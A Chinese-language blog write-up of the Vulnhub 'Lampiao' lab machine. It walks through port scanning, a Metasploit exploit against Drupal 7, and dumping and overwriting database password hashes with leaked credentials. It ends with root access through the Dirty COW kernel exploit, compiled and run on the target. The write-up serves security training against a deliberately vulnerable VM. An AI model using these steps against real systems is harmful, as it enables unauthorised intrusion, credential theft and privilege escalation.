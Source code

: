 ```yaml
---
layout: post
title: Lampiao
subtitle: Lampiao
date: 2025-07-11 17:52
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 信息搜集

IP扫描，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/uOvsti.png)

端口扫描，发现三个端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/UiAH2o.png)

## 2. 渗透测试

访问80端口，未发现有效信息，目录扫描未发现其他目录

访问1898端口，发现网站，扫描目录，发现robots.txt

查看文章，发现url格式 `http://192.168.163.131:1898/?q=node/2`，更改数字发现3个页面，发现两个音频文件和一个图片

`whatweb` 扫描网站框架，`Drupal 7`

![image.png](https://img.ghostliner.top/4irltv.png)
### 2.1. 反弹shell

`msfconsole` 搜索相关漏洞

![image.png](https://img.ghostliner.top/aR9Xas.png)

使用编号为1的漏洞

```shell
use 1
options
set rhosts 192.168.163.131
set rport 1898
run
```

连接成功后，进入shell

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')"
```

搜索Drupal站点的配置文件

```shell
# 搜索配置文件
find . -name "setting*" -type f
# 搜索密码加密脚本
find . -name "pass*" -type f
```

搜索到 `./sites/default/settings.php`   `./scripts/password-hash.sh`

查看settings.php，发现数据库配置
```
'database' => 'drupal', 
'username' => 'drupaluser', 
'password' => 'Virgulino', 
```

使用 `./scripts/password-hash.sh 123` 生成密码，用于更改用户密码
```
123:$S$DFn4g4WKRfqgHk28yFUea5g5jNoWb/iHXIPDz6BtI2dqdrw.UOmz
```

### 2.2. 连接数据库

```shell
mysql -u drupaluser -pVirgulino
```

```mysql
use drupal;
show tables;
select * from users\G;
# tiago $S$DNZ5o1k/NY7SUgtJvjPqNl40kHKwn4yXy2eroEnOAlpmT0TJ9Sx8
# Eder $S$Dv5orvhi7okjmViImnVPmVgfwJ2U..PNK4E9IT/k7Lqz9GZRb7tY
update users set pass='$S$DFn4g4WKRfqgHk28yFUea5g5jNoWb/iHXIPDz6BtI2dqdrw.UOmz' where uid=1 or uid=2;
```

登录网站。

使用数据库密码尝试登录用户：`tiago`

`ls -R /home` tiago用户目录下无东西，尝试提权

```shell
sudo -l
# Sorry, user tiago may not run sudo on lampiao.
find / -exec "/bin/bash" -p \; -quit
```

### 2.3. 内核提权

查看内核版本

![image.png](https://img.ghostliner.top/82QdBK.png)

搜索脏牛漏洞 [CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195)

```shell
searchsploit dirty
```

![image.png](https://img.ghostliner.top/PB6RWu.png)

使用 `40847.cpp`

```shell
# 复制到到当前目录
searchsploit -m 40847.cpp
# 传输到目标机
scp 40847.cpp tiago@192.168.163.131:~
```

```shell
# 在目标机上编译
g++ -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil
# 执行
./40847
# Root password is:   dirtyCowFun
```

![image.png](https://img.ghostliner.top/theoLU.png)

root登录，获取flag文件

![image.png](https://img.ghostliner.top/RNpcqa.png)
